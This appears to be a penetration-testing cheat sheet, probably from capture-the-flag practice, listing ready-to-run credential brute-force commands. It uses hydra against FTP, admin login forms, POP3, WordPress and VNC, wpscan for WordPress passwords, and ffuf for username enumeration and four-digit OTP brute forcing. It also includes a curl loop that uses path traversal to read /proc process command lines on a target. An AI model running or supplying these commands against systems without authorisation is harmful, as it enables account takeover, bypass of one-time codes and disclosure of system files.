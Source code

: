 ```bash
hydra -l $user -P list.txt $ip ftp
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.118.60 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

#### Bruteforce pop3 creds

```bash
hydra -L usernames_list.txt -P passwords_list.txt pop3://<ip>
```

#### Bruteforce wp-login using hydra and wpscan

```bash
hydra -L usernames_list.txt -P $password <ip> -V http-form-post '/wp-login:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

```bash
hydra -l <username> -P <passwords.txt> <ip> -V http-form-post "/wp-login:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 30
```

```bash
wpscan -v -U $wordlist -P $wordlist --url <URL/wp-login.php>
```

#### username bruteforce using FFUF

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <URL> -mr "username already exists"
```

#### bruteforce VNC using hydra

```bash
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt vnc://<ip>
```

## Bruteforce Procs
```bash
for i in $(seq 900 1000); do curl $IP:<port>/?page=../../../../proc/$i/cmdline -o -; echo "PID => $i"; done
```

## Bruteforce OTP code
```bash
ffuf -c -u '<http://<ip>:<port>/otp-auth>' -H 'Content-Type: application/json' -X POST -d '{"otp":"FUZZ"}' -fr '{"success": "false"}' -w digits -od otp_out where digits was a file with all 4-digit pins and otp_out was an empty dir
```

---